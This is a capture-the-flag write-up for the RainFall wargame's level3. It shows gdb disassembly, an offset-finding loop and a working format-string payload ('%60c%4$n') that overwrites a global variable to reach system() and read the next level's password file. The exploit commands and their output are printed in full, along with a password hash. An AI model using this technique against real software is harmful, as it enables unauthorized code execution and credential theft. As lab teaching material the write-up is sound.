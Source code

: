  global variable overite
the allocated buffer is 520 + 4 = Offset to return address

we want to overide the m with 64 not hijacking EIP

from the gdb we have

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave  
   0x08048526 <+12>:    ret    
End of assembler dump.
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave  
   0x08048519 <+117>:   ret    
End of assembler dump.
(gdb) x/s 0x8049860
0x8049860 <stdin@@GLIBC_2.0>:    ""
(gdb) x/s 0x804988c
0x804988c <m>:   ""
(gdb) 
```

Address of `m` = `0x804988c`

The `fgets()` copies the input to a local buffer of 0x208 bytes.

That buffer is passed directly to `printf()`

```
         |→ we fully control `printf(input)`.
```

So we can Include **addresses** in the input

Use format specifiers like `%<n>$n` to write to those addresses

lets find the right ofset :

```bash
for i in $(seq 1 50); do
    python -c "print('\x8c\x98\x04\x08' + '%${i}\$p')" | ./level3
done
```

making a shell to Find the position of our input on the stack

```bash

level3@RainFall:~$ for i in $(seq 1 50); do
>   python -c "print('\x8c\x98\x04\x08' + '%${i}\$p')" | ./level3
> done
�0x200
�0xb7fd1ac0
�0xb7ff37d0
�0x804988c  <- the one we looking for at position 4 
�0x70243525
�0xa
�0xb7fef305
�0xbffff5b8
�0xb7fde2d4
�0xb7fde334
�0x7
�(nil)
�0xb7fde000
�0xb7fff53c
�0xbffff5b8
�0x40
�0xb80
�(nil)
�0xb7fde714
�0x98
�0xb
�(nil)
�(nil)
�(nil)
�(nil)
�(nil)
�(nil)
�(nil)
�0xb7fe765d
�0xb7e3ebaf
�0x80482bb
�(nil)
�(nil)
�(nil)
�0xb7fe749f
�0xb7fd5000
�0x2
�0x8048268
�0xb7fffc00
�0xb7ffeff4
�0xb7ffeff4
�0xb7e2fc30
�0x1
�0xb7fdcb18
�0xb7fe7cac
�(nil)
�(nil)
�(nil)
�(nil)
�(nil)
```

the payload

```bash
level3@RainFall:~$ python -c "print('\x8c\x98\x04\x08' + '%60c' + '%4\$n')" | ./level3
�                                                           
Wait what?!
```

let hang the program to cat the pass word or something else ;

```bash
level3@RainFall:~$ (python -c "print('\x8c\x98\x04\x08' + '%60c' + '%4\$n')"; cat) | ./level3
�                                                           
Wait what?!
cd ../level4
cat .pass       
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```


